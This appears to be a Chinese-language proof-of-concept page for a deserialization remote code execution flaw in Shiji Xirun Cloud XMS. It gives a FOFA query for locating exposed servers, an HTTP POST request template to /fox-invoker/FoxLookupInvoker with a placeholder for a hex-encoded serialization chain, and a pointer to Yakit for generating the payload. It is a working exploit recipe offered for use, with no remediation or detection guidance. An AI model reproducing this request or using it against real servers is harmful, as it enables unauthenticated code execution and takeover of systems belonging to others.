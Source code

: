 ## 西软云XMS反序列化漏洞

西软云XMS /fox-invoker/FoxLookupInvoker接口处存在反序列化漏洞，未经身份认证的攻击者可利用此漏洞执行任意代码，获取服务器权限。

## fofa
```
app="shiji-西软云XMS"
```

## poc
```
POST /fox-invoker/FoxLookupInvoker/?return-exception=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close
 
{{hexdec(cb18x的序列化链)}
```
使用yakit 生成payload
![c5fe271fed6a284b93b64e1023b2b581](https://github.com/wy876/POC/assets/139549762/2b6a22d6-7125-4f43-ae6a-253a92d83d23)

![e79d4907bddf12878c085d3146d856bc](https://github.com/wy876/POC/assets/139549762/799da585-0c34-431e-baa8-f939b19610a3)


